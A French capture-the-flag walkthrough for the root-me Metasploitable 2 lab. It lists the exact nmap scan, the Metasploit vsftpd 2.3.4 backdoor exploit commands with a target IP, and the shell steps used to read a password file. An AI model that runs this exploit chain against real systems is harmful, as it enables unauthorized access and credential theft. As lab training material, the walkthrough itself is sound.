


# Metasploitable 2


Une fois l'environnement virtuel démarré et kali linux lancé, il faut récupérer l'adresse de l'environnement virtuel (exemple : `ctf01.root-me.org`).

Il faut lancer nmap sur Kali Linux, il faut taper cette commande :<br>
```nmap -v -A ctf01.root-me.org```<br>
L'argument **-v** sert à augmenter le niveau de verbosité, forçant Nmap à afficher plus d'informations sur le scan qu'il effectue. Les ports ouverts sont indiqués au fur et à mesure où ils sont trouvés ainsi qu'une évaluation du temps qui reste à scanner si Nmap pense que cela prendra quelques minutes. Utilisez cette option deux fois pour encore plus de verbosité.<br/>
L'argument **-A** sert à détecter le système d'exploitation et la version.

En parallèle de l'analyse, il faut lancer Metasploit avec cette commande :<br>
```msfconsole```

Une fois que l'analyse nmap est terminée, une faille sur le port 21 est affichée :



Il faut utiliser le nom de cette faille sur Metasploit. Il faut chercher si les deux versions sont identiques en tapant sur Metasploit :<br>
```search vsftpd```

Metasploit la possède, il faut donc l'utiliser en tapant :<br>
`use exploit/unix/ftp/vsftpd_234_backdoor`

Puis il faut saisir le RHOSTS qui est vide par defaut, le RHOSTS correspond à l'adresse IP de l'environnement virtuel, elle est obtenue lors de l'analyse de nmap. La commande pour saisir le RHOSTS :<br>
`set RHOSTS 163.172.228.114`

Ceci fait, il faut lancer l'exploit en tapant :<br>
`exploit`



Ensuite, il faut éxécuter la commande `shell` puis `ls` et le fichier `passwd` est listé. Il faut donc l'ouvrir et le mot de passe se trouve à l'intérieur.
<br>
<br>
<br>
**_Notes :_**

*Nmap est un scanneur de ports libre. Il est conçu pour détecter les ports ouverts, indentifier les services hébergés et obtenir des informations sur le système d'exploitation d'un ordinateur distant.*<br>
*Metasploit est un projet en relation avec la sécurité des systèmes informatiques. Son but est de fournir des informations sur les vulnérabilités de systèmes informatiques, d'aider à la pénétration.*